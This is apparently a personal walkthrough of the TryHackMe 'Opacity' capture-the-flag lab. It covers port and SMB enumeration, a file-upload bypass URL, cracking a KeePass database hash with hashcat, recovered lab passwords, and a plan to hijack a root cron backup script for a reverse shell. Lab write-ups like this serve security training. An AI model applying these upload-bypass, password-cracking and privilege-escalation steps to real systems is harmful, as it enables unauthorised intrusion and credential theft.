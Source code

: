 <code>

https://tryhackme.com/r/room/opacity


### Enumeration
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ nmap -A  -Pn  -p- 10.10.195.188 
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-10 04:37 CDT
Nmap scan report for 10.10.195.188
Host is up (0.038s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-10T09:37:43
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.04 seconds

### SMB

┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ smbclient -N -L \\\\10.10.195.188

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (opacity server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.
smbXcli_negprot_smb1_done: No compatible protocol selected by server.
protocol negotiation failed: NT_STATUS_INVALID_NETWORK_RESPONSE
Unable to connect with SMB1 -- no workgroup available
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ smbmap -H 10.10.195.188          
[+] IP: 10.10.195.188:445       Name: 10.10.195.188                                     
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (opacity server (Samba, Ubuntu))


                                                              


### Upload Bypass

http://10.10.195.188/cloud/images/file.php &&.jpeg

### linpeas

╔══════════╣ Readable files inside /tmp, /var/tmp, /private/tmp, /private/var/at/tmp, /private/var/tmp, and backup folders (limit 70)                                                                                                   
-rwxrwxrwx 1 www-data www-data 847834 Dec 19 12:54 /tmp/linpeas.sh                                                  
-rw-r--r-- 1 root root 33987 Jun 10 12:19 /var/backups/backup.zip

every minute is call script.php

<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>


	/* Define username and associated password array */
		$logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');


### Get password database
  ┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ keepass2john database.kdbx | grep -o "$keepass$.*" >  CrackThis.hash
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ cat CrackThis.hash   
$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4
                                                                                                                    
┌──(duke㉿kali)-[~/Documents/THM_Opacity]
└─$ hashcat -a 0 -m 13400 CrackThis.hash ../../www/wordlists/rockyou.txt 

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache built:
* Filename..: ../../www/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$keepass$*2*100000*0*2114f635de17709ecc4a2be2c3403135ffd7c0dd09084c4abe1d983ad94d93a5*2bceccca0facfb762eb79ca66588135c72a8835e43d871977ff7d3e9db0ffa17*cae9a25c785fc7f16772bb00bac5cc82*b68e2c3be9e46e8b7fc05eb944fad8b4ec5254a40084a73127b4126408b2ff46*b0afde2bd0db881200fc1c2494baf7c28b7486f081a82e935411ab72a27736b4:741852963


### open database.kdbx with master pass 741852963
get sysadmin pas Cl0udP4ss40p4city#8700

## Get Sysadmin Password

Cl0udP4ss40p4city#8700

### PrivEscalation to Root
from pspy32 know that run backup script every 1 min.
modify backup.inc.php and get reverse shell with root credentials

<\code>
